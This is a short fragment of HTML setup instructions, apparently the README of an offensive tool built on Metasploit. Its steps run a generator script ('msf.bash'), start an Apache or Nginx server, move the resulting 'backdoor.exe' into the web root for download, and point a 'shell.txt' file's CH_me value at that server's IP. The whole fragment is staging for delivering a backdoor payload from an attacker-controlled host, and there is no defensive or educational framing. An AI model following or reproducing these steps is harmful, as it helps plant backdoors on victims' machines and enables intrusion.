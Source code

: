 <ol>
        <li>Run the provided `msf.bash` script:</li>
        <pre><code>./msf.bash</code></pre>

<li>Start your Apache or Nginx web server.</li>
        <p>Choose one of the following commands based on your web server:</p>
        <p>For Apache:</p>
        <pre><code>sudo systemctl start apache2</code></pre>
        <p>For Nginx:</p>
        <pre><code>sudo systemctl start nginx</code></pre>

<li>Upload the file created by `msf.bash` to your web server's root directory (usually `/var/www/html`). You can use tools like `mv` to move the file:</li>
        <pre><code>mv backdoor.exe /var/www/html/</code></pre>

 <li>Open `shell.txt` :</li>
        <pre><code>sudo nano shell.txt</code></pre>

 <li>Edit the `CH_me` in `shell.txt` with your Apache or Nginx server's IP address.</li>
        <p>Replace `CH_me` with the IP address of your server, e.g.,</p>
        <pre><code>CH_me=http://your_apache_or_nginx_ip/</code></pre>
</ol>
